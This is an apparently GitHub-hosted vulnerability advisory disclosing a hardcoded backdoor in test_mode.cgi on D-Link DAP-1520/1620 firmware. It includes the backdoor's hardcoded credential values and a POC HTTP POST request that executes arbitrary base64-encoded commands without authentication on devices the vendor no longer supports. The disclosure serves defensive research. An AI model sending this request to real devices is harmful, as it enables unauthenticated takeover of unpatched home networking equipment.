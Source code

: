 # D-Link dap-1520, 1620 hardcoded backdoor

## firmware information

Vendor: D-Link

Product: D-Link dap-1620, D-Link dap-1520

Affected product

For dap-1620, the following version is affected

- DAP-1620_REVA_FIRMWARE_PATCH_1.04.B04_BETA03
- DAP-1620_REVA_FIRMWARE_1.01.B05
- DIR-1620_REVA_FIRMWARE_1.04.B04
- DAP-1620_REVA_FIRMWARE_1.03.B08
- DAP-1620_REVA_FIRMWARE_v1.05B05

For dap-1520, the following version is affected

- DAP-1520_REVA_FIRMWARE_PATCH_1.09.B01_BETA04

Support URL

https://www.dlink.com/uk/en/products/dap-1520-wifi-ac750-range-extender

https://www.dlink.com/rs/sr/products/dap-1620-ac1300-wifi-range-extender

## Vulnerability description

In D-Link dap-1520, 1620, its `test_mode.cgi` in binary `/bin/ssi` contains a hard-coded backdoor. Unauthenticated attackers can send hard-coded command to the firmware and execute arbitrary commands.

The following code contains the decompiled code of the backdoor. In function `do_mp_method` (at address `0x40EA80` in binary `/bin/ssi`), the following code handles user's requests posting to `test_mode.cgi`

![image-20250220150823473](dap1620_backdoor.assets/image-20250220150823473.png)

If user posts the following code 

`accu=mp1524&pass=kmark43&code=smpwdc&hash=/lJ9NwfO3rRGcAkzv49mmA1$cmds=<base64 encode of command>`

The firmware will process user's input, and decode the content provided in `cmds` field. If it's not the same with "reboot" or "nvram" and transfer it as the argument to function `sub_40e910`

The following code represent `sub_40e910`. It executes attackers' command without any sanitizing.

![image-20250220151108594](dap1620_backdoor.assets/image-20250220151108594.png)

However, in the firmware's configuration file `etc/conf.d/graph_auth.conf`, it can be found that this url is intended set to be able to view as unauthenticated, which means any unauthenticated user can execute arbitrary command through this malicious cgi.

![image-20250220151727008](dap1620_backdoor.assets/image-20250220151727008.png)

## POC

replace \<base64 encode of command\> field is to real command in base64 format to reproduce this vulnerability

```txt
POST /test_mode.cgi
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36
Content-Type: 104
Content-Length: 49
accu=mp1524&pass=kmark43&code=smpwdc&hash=/lJ9NwfO3rRGcAkzv49mmA1$cmds=<base64 encode of command>
```

## timeline

\[25-02-20\] report to vendor

\[25-02-21\] vendor reply, saying they are not going to support the product, since they are end-of-service

\[25-02-21\] report to CVE

\[25-04-05\] assigned CVE-2025-27995
